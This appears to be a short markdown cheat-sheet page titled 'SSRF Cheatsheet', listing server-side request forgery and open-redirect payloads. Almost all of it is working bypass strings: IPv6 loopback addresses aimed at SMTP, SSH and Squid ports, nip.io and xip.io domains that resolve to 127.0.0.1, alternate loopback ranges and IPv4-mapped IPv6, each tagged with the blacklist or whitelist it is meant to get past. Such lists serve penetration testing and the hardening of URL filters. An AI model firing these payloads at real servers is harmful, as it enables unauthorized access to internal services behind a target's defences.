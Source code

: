 ```yaml
---
date: "2021-04-12T00:00:00Z"
title: SSRF Cheatsheet
tags : ["Web", "SSRF"]
---
```



# SSRF


Hello there,below is a list of most common SSRF payloads and open-redirect bypasses 

### SSRF & Open Redirect Bypass

- With [::], abuses IPV6

[http://[::]/](.)

[http://[::]:80/](.)

[http://[::]:25/](.) SMTP

[http://[::]:22/](.) SSH

[http://[::]:3128/](.) Squid

[http://0000::1/](.)

[http://0000::1:80/](.)

[http://0000::1:25/](.) SMTP

[http://0000::1:22/](.) SSH

[http://0000::1:3128/](.)Squid

- With domain redirection, useful when all IP addresses are blacklisted

[http://localtest.me](.)

[http://test.app.127.0.0.1.nip.io](.)

[http://test-app-127-0-0-1.nip.io](.)

[httP://test.app.127.0.0.1.xip.io](.)

- With CIDR, useful when just 127.0.0.1 is whitelisted

[http://127.127.127.127/](.)

[http://127.0.1.3/](.)

[https:/127.0.0.0/](.)

- With IPv6/IPv4 address embedding, useful when both IPv4 and IPv6 are blacklisted (but blacklisted badly)

[http://[0:0:0:0:0:ffff:127.0.0.1]/](.)
